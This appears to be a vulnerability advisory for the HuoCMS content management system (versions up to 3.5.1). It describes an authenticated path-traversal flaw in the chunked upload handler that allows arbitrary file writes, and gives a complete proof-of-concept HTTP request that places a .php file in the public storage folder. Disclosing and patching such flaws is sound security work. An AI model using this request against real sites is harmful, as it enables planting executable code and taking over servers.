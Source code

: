 ##BUG_Author: yggcwhat

##Affected version:  Huocms

##Vendor:https://huocms.com/


##Source Code Address:  https://gitee.com/digital-flag/huocms

##Vulnerability File: Upload.php

##Affected Version：HuoCMS - <=V3.5.1

##Description:
In the sliceUploadAndSave method of AttachmentController.php (located under app -> controller -> backend), the resource_type parameter is validated against a whitelist of allowed file extensions (e.g., txt, png, etc.). Subsequently, the method invokes tmpMove from Upload.php (under app -> service -> upload).

The tmpMove method first creates a file. However, the $filename parameter (controlled by the resource_temp_path input parameter, which is user-controllable) can be exploited to traverse directories (e.g., using ../) to create folders. The method then performs a move operation, placing the file into the created directory. The final filename is generated by appending an underscore and the $pos suffix, where $pos is controlled via the chunk_index parameter passed during the call (refer to the actual parameter passing for details).

This creates a vulnerability where an attacker could manipulate resource_temp_path and chunk_index to write files to arbitrary locations with controlled filenames.

Details:
app >controller >backend > AttachmentController.php：sliceUploadAndSave
![image](https://github.com/user-attachments/assets/24c5022b-5dbf-410b-96fd-ccbe93af5dbb)

app >service >upload > Upload.php：tmpMove
![image](https://github.com/user-attachments/assets/d0ba84b2-a5db-498f-95f7-e14a4c90c7cd)
![image](https://github.com/user-attachments/assets/e72806d6-1a06-467b-b040-172109bcb710)



This vulnerability is a backend issue that requires logging into the backend with a token to invoke. Please set up and log in by yourself.

POC：
```
POST /attachment/sliceUploadAndSave HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: token
Content-Type: multipart/form-data; boundary=----geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Length: 990
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_chunk"; filename="blob"
Content-Type: application/octet-stream

1
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="chunk_total"

1
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="chunk_index"

.php
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_temp_basename"

.php
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_temp_path"

../../../public/storage/image/20250415/
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_type"

txt
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_name"

11.png
------geckoformboundary13d3934e0299a09e8748d146bfb9d483--
```

![image](https://github.com/user-attachments/assets/b670c180-df77-4e0d-9e13-7e02c7e8308e)


Access URL:  
http://127.0.0.1/storage/image/20250415/%5f%5f.php
![image](https://github.com/user-attachments/assets/be060299-23ee-470d-abaa-57550329ba34)


##Reference：
http://huocms.com
https://github.com/yggcwhat/CVE-2025-46078/edit/main/README.md
https://www.huocms.com/


